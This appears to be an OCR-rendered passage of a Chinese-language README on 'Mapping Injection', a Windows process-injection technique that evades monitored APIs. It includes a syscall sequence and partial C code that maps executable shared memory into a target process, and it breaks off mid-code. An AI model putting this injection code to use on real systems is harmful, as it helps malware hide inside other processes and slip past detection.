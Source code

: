 # Mapping Injection - 映射注入

## 概述

Mapping Injection 是一种创新的进程注入技术，完全避免使用传统的 `VirtualAllocEx`、`WriteProcessMemory` 和 `CreateRemoteThread` API。它利用 Windows 10 1703+ 引入的 `MapViewOfFile3` API 和 `ProcessInstrumentationCallback` 机制来实现隐蔽注入。

**原作者**: antonioCoco (@splinter_code)
**要求**: Windows 10 1703+ (Build 15063) 或更高版本

## 核心思想

传统注入的 syscall 模式：
```
VirtualAllocEx -> WriteProcessMemory -> CreateRemoteThread
```

Mapping Injection 的 syscall 模式：
```
OpenProcess ->
(CreateFileMapping -> MapViewOfFile3[当前进程] -> MapViewOfFile3[目标进程]) x 2 次 ->
NtSetInformationProcess
```

## 技术原理

### 1. **共享内存映射**

```c
// 创建文件映射对象（共享内存）
HANDLE hFileMap = CreateFileMapping(
    INVALID_HANDLE_VALUE,      // 不关联文件
    NULL,
    PAGE_EXECUTE_READWRITE,
    0,
    size,
    NULL
);

// 映射到当前进程（写入数据）
LPVOID localAddr = MapViewOfFile3(
    hFileMap,
    GetCurrentProcess(),
    NULL,
    0,
    0,
    0,
    PAGE_READWRITE,
    NULL,
    0
);

// 写入数据
memcpy(localAddr, data, size);

// 映射到目标进程（相同内存，不同地址）
LPVOID remoteAddr = MapViewOfFile3(
    hFileMap,
    hTargetProcess,
    NULL,
    0,
    0,
    0,
```